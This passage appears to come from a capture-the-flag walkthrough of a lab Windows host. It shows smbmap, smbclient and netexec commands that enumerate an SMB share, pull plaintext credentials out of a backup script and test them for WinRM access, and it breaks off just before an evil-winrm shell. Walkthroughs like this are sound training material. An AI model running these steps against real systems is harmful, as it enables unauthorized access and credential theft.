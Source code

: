 **Result:**  
David has access to the `DEV` share in addition to the previously seen shares.

---

### 3.7 Inspecting DEV Share

We recursively list the contents of the `DEV` share:

``` bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
```

![smbmap_david_DEV](smbmap_david_DEV.png)

**Finding:**  
A file named `Backup_script.ps1` is present.

---

### 3.8 Extracting Backup Script

We download and inspect the file:

``` bash
smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3' 
get "Backup_script.ps1" 
cat Backup_script.ps1
```

![smbclient_get_backup](smbclient_get_backup.png)

**Finding:**  
The script contains plaintext credentials for another account:

`User: emily.oscars Password: Q!3@Lp#M6b*7t*Vt`

---

### 3.9 Checking SMB and WinRM for Emily

``` bash
netexec smb 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
netexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![netexec_emily](netexec_emily.png)

Successful.
### 3.10 Gaining Remote Shell with Evil-WinRM

**Note:** `evil-winrm` is a preferred tool for WinRM exploitation as it provides an interactive PowerShell prompt, supports file upload/download, and allows local script execution, which is very useful in post-exploitation.

We confirm that `emily.oscars` has WinRM access and open a remote PowerShell session:

